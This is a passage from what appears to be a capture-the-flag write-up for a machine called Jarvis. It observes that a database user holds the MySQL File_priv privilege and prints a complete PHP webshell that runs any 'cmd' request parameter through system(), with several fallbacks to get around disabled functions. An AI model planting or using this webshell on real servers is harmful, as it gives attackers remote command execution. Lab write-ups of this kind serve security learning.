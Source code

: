 ![sql_user_priv](./jarvis/sql_user_priv.png)

It seems like this user has the `File_priv` set. This enables the `DBadmin` user to read and write files to the system. With this, it is possible to try and get a simple webshell using the following:

```php
<?php if (isset($_REQUEST['cmd'])) {
  $cmd = $_REQUEST['cmd'];
  echo 'BUBBA-START';
  executeCommand($cmd);
  echo 'BUBBA-END';
  die();
}
function executeCommand(string $command) {
  if (class_exists('ReflectionFunction')) {
    $function = new ReflectionFunction('system');
    $function->invoke($command);
  } elseif (function_exists('call_user_func_array')) {
    call_user_func_array('system', array($command));
  } elseif (function_exists('call_user_func')) {
    call_user_func('system', $command);
  } else if(function_exists('passthru')) {
    ob_start();
    passthru($command, $return_var);
    $output = ob_get_contents();
    ob_end_clean();
  } else if(function_exists('system')){
    system($command);
  }
}?>
```
